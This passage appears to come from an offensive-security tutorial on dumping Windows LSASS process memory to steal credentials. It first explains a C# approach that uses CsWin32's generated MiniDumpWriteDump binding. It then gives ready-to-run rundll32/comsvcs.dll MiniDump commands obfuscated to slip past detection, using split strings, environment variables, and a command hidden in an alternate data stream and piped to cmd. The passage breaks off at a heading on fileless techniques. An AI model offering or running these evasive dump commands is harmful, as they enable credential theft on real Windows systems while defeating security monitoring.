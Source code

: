 ### **Explanation**:

1. **Using CsWin32**:
   - `CsWin32` generates the `PInvoke.MiniDumpWriteDump` method based on the function definition from Windows API metadata.
   - The generated `PInvoke` class contains the method signature for `MiniDumpWriteDump`.

2. **The Main Code**:
   - The code locates the `lsass.exe` process and dumps its memory using the `MiniDumpWriteDump` function, similar to the earlier example.
   - Instead of using a manually defined `DllImport`, the code uses the generated `PInvoke.MiniDumpWriteDump` method provided by CsWin32.

### **Advantages of Using CsWin32**:

- **Automatic Updates**: The P/Invoke signatures are automatically generated and updated based on the latest Windows SDK, reducing the risk of errors.
- **Type Safety**: CsWin32 provides better type safety and usability compared to manually writing `DllImport` signatures.

This approach simplifies the integration of Windows API calls into your C# code by leveraging the power of CsWin32 for automatic interop code generation.

### Comsvcs.dll

Dumping the LSASS process using `comsvcs.dll` can be detected by security tools, so attackers may employ various obfuscation techniques to avoid detection. Below are some obfuscation strategies that can be applied when using `comsvcs.dll` to dump LSASS memory:

### 1. **Command Line Obfuscation**
   - **String Concatenation**: Break the command into multiple parts and concatenate them. This can make the command less recognizable by signature-based detection tools.

     ```cmd
     cmd.exe /c "rundll32.exe c:\\wi"+"ndo"+"ws\\syst"+"em32\\comsvcs.dll, MiniDump 1234 C:\\\\Win"+"do"+"ws\\Temp\\lsass.dmp full"
     ```

   - **Environment Variables**: Use environment variables to obfuscate parts of the path.

     ```cmd
     set sysdir=%SystemRoot%\system32
     rundll32.exe %sysdir%\comsvcs.dll, MiniDump 1234 %SystemRoot%\Temp\lsass.dmp full
     ```

   - **Alternate Data Streams (ADS)**: Hide the command in an alternate data stream of a file and execute it.

     ```cmd
     echo rundll32.exe c:\windows\system32\comsvcs.dll, MiniDump 1234 c:\windows\temp\lsass.dmp full > normal.txt:hidden
     more < normal.txt:hidden | cmd
     ```

### 2. **Fileless Techniques**
   - **Memory-only Execution**: Instead of writing the dump to a file, the dump can be held in memory and transmitted or processed without touching the disk.
